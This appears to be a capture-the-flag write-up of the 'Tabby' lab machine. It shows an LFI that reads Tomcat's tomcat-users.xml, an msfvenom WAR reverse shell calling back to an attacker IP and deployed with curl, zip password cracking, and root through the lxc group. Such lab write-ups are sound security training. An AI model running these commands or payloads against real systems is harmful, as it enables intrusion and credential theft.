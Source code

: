 # Tabby

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (16) (3).png" alt=""><figcaption></figcaption></figure>

### LFI

We would have to add `megahosting.htb` to our `/etc/hosts` file to view port 80. Afterwards, we would just see something like this on the page:

<figure><img src="../../../.gitbook/assets/image (35) (1).png" alt=""><figcaption></figcaption></figure>

When we press the Compare button, we would be brought to `/news.php?file=statement`. I tested for LFI, and it worked!

<figure><img src="../../../.gitbook/assets/image (25) (2) (2).png" alt=""><figcaption></figcaption></figure>

### Tomcat

Tomcat was running on port 8080, and we would need to somehow get the manager password to upload a .war reverse shell. Since we have LFI, we can read it at `/usr/share/tomcat9/etc/tomcat-users.xml`.

<figure><img src="../../../.gitbook/assets/image (32) (1) (1).png" alt=""><figcaption></figcaption></figure>

The password is `$3cureP4s5w0rd123!`. Then, we can login to the admin dashboard, create a .war reverse shell using `msfvenom`, upload it, and execute it via `curl`:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.9 LPORT=4444 -f war -o rev.war
curl -u 'tomcat:$3cureP4s5w0rd123!' http://10.10.10.194:8080/mnager/text/deploy?path=/shell --upload-file rev.war
```

<figure><img src="../../../.gitbook/assets/image (15) (1) (3).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Backup Zip --> Ash

When looking aroun the file system, I found this backup file here:

<figure><img src="../../../.gitbook/assets/image (42) (2).png" alt=""><figcaption></figcaption></figure>

This waws password protected, so let's transfer this back to our machine via `nc` and then use `john` on it:

<figure><img src="../../../.gitbook/assets/image (10) (2) (6).png" alt=""><figcaption></figcaption></figure>

The backup file had nothing on it...which was weird. Since we have a password, might as well try `su`, and it worked to getting to `ash`:

<figure><img src="../../../.gitbook/assets/image (4) (1) (2).png" alt=""><figcaption></figcaption></figure>

### LXC Group

When we check the `id` of `ash`, we see that they are part of the `lxc` group.

<figure><img src="../../../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

This exploitable because we can create a container and mount it with root access to the main machine.

{% embed url="https://steflan-security.com/linux-privilege-escalation-exploiting-the-lxc-lxd-groups/" %}

Following the resource above, we can spawn a root shell:

<figure><img src="../../../.gitbook/assets/image (19) (3).png" alt=""><figcaption></figcaption></figure>

Rooted!
